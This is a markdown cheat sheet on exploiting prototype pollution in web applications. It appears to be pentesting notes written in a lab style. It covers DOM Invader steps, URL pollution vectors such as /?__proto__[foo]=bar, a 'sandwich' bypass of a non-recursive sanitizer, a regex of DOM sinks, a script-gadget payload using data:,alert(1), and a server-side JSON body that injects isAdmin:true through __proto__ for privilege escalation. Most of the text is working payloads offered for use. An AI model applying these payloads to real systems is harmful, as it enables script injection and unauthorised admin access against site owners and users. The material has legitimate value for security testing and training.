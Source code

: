 # Prototype Pollution

> While browsing, `?constructor[prototype]...` content flashes in the URL bar? Yes, then try to exploit this...

## Prototype Pollution (DOM Invader)

Note: sometimes there's sanitizer blocking the detection (see manual)

1. Turn On Dom Invader
2. Attack -> Turn On Prototype Attacks
3. Browse normally the app and check the Dom tab
4. Scan for gadget -> Exploit -> If Not working, look at the sink value -> Any trailing caracter -> Add - or ; after the payload

## Manual

Find Prototype Source:

1. Prototype pollution vectors
2. 
    ```
    /?__proto__.foo=bar
    /?__proto__[foo]=bar
    /?constructor.prototype.foo=bar
    ```
3. Console: `Object.prototype`

    Injection

    `{foo: 'bar', __defineGetter__: ƒ, __defineSetter__: ƒ, hasOwnProperty: ƒ, __lookupGetter__: ƒ, …}`

    No Injection:

    `{ __defineGetter__: ƒ, __defineSetter__: ƒ, hasOwnProperty: ƒ, __lookupGetter__: ƒ, …}`

        Is there a santizer?

            ```
            // Vulnerability: not recurrent replace
            // Exploit: __pro__proto__to__ (i.e.: sandwich)
            
            function sanitizeKey(key) {
                let badProperties = ['constructor','__proto__','prototype'];
                for(let badProperty of badProperties) {
                    key = key.replaceAll(badProperty, '');
                }
                return key;
            }
            ```
            
Find a Sink:

```
(document\.|window\.)(write|writeln|createElement|domain)|location|eval|setTimeout|setInterval|innerHTML|outerHTML|insertAdjacentHTML|window\.open|onevent|Function
```


```
async function searchLogger() {

    // Object
    
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
    
        // Sink -> /?__proto__[transport_url]=data:,alert(1);
        
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

## Server Side


```
POST /ChaneAddress
{
    "City": "foo",
    "Address": 1234,
}
```

```
HTTP/2 200 OK

{
    "username": "wiener",
    "City": "foo",
    "Address": 1234,
    "isAdmin":true
}

```

Mass assignement not working? Try prototype pollution.

```
{
    "City": "foo",
    "Address": 1234,
    "__proto__": {
        "isAdmin":"true"
    }
}
    ```
